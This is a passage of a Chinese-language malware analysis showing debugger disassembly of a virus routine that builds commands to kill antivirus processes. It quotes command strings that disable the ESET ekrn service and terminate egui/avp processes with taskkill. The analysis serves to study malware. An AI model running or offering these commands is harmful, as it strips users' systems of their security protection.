   0040207B    83E1 03         and     ecx, 3
  0040207E    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00402080    BF 50114000     mov     edi, 00401150                    ; ASCII "egui.exe"
  00402085    83C9 FF         or      ecx, FFFFFFFF
  00402088    F2:AE           repne   scas byte ptr es:[edi]
  0040208A    F7D1            not     ecx
  0040208C    2BF9            sub     edi, ecx
  0040208E    8BF7            mov     esi, edi
  00402090    8BFA            mov     edi, edx
  00402092    8BD1            mov     edx, ecx
  00402094    83C9 FF         or      ecx, FFFFFFFF
  00402097    F2:AE           repne   scas byte ptr es:[edi]
  00402099    8BCA            mov     ecx, edx
  0040209B    4F              dec     edi
  0040209C    C1E9 02         shr     ecx, 2
  0040209F    F3:A5           rep     movs dword ptr es:[edi], dword p>
  004020A1    8BCA            mov     ecx, edx
  004020A3    83E1 03         and     ecx, 3
  004020A6    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  004020A8    BF 5C114000     mov     edi, 0040115C                    ; ASCII " /f"
  004020AD    83C9 FF         or      ecx, FFFFFFFF
  004020B0    F2:AE           repne   scas byte ptr es:[edi]
  004020B2    F7D1            not     ecx
  004020B4    2BF9            sub     edi, ecx
  004020B6    8D5424 10       lea     edx, dword ptr [esp+10]
  004020BA    8BF7            mov     esi, edi
  004020BC    8BFA            mov     edi, edx
  004020BE    8BD1            mov     edx, ecx
  004020C0    83C9 FF         or      ecx, FFFFFFFF
  004020C3    F2:AE           repne   scas byte ptr es:[edi]
  004020C5    8BCA            mov     ecx, edx
  004020C7    4F              dec     edi
  004020C8    C1E9 02         shr     ecx, 2
  004020CB    F3:A5           rep     movs dword ptr es:[edi], dword p>
  004020CD    8BCA            mov     ecx, edx
  004020CF    50              push    eax
  004020D0    83E1 03         and     ecx, 3
  004020D3    8D4424 14       lea     eax, dword ptr [esp+14]
  004020D7    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  004020D9    50              push    eax
  004020DA    FFD3            call    ebx
  004020DC    68 B80B0000     push    0BB8
  004020E1    FFD5            call    ebp
  004020E3    5F              pop     edi
  004020E4    5E              pop     esi
  004020E5    5D              pop     ebp
  004020E6    5B              pop     ebx
  004020E7    81C4 00010000   add     esp, 100
  004020ED    C3              retn
  （2）、病毒尝试通过 WinExec 执行 dos 命令终止反病毒软件 ekrn 、egui、avp 的相关服务，强行终止相关进程，并删除相关服务
  一般常见杀毒软件的自身保护能力很强，在 ring3 下是很难停止服务，杀掉进程的。其实，假如宿主机之前已经中过类似的毒，那么此时可以方便做到以上。
   "cmd /c sc config ekrn start= disabled"
   "cmd.exe /c taskkill.exe /im "
